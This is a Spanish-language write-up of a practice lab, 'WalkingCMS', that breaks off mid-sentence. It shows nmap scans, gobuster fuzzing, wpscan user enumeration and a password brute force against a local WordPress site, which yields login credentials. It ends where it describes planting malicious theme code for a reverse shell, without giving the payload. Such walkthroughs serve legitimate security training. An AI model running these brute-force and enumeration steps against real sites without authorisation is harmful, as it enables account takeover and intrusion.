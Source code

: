# WalkingCMS

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bashPORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puertos 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Cómo únicamente tenemos el puerto 80 abierto vamoa a enumerar desde la página web. Mientras vamos a ver la web dejamos corriendo **gobuster** para ir haciendo fuzzing.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 10701]
/.php                 (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```
Ya vemos con el fuzzing que se trata de un wordpress, vamos a ver la página web y enumeramos con **wpscan**.

![wordpress](https://github.com/TBrux/DOCKERLABS/assets/168732212/46ea7c22-9d71-45cf-a4ec-5278d3473d36)

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
```
[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Encontramos el usuario **mario** y con ese usuario y con **wpscan** trataremos de hacer fuerza bruta a ver si podemos conseguir la contraseña.
```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                   
Trying mario / badboy Time: 00:00:02 <                                                                                                                                                             > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Hemos encontrado la contraseña **love**, así que ahora comprobamos si tenemos acceso al panel de login para acceder con mario:love 
```bash
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-login.php         (Status: 200) [Size: 6580]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Vemos que tenemos acceso al panel de **/wp-admin** y que con las credenciales obtenidas tenemos acceso.

![wp-admin](https://github.com/TBrux/DOCKERLABS/assets/168732212/4a7c0e8f-c08e-48f8-81d0-9bce0d4eeb08)

## Explotación.
Cuando tenemos acceso a un panel de wordpress, lo primero que deberíamos hacer, es ir a ver si podemos modificar una página del tema y así poner nuestro código malicioso y de esta forma podemos obtener una reverse shell.



Como estamos en la página


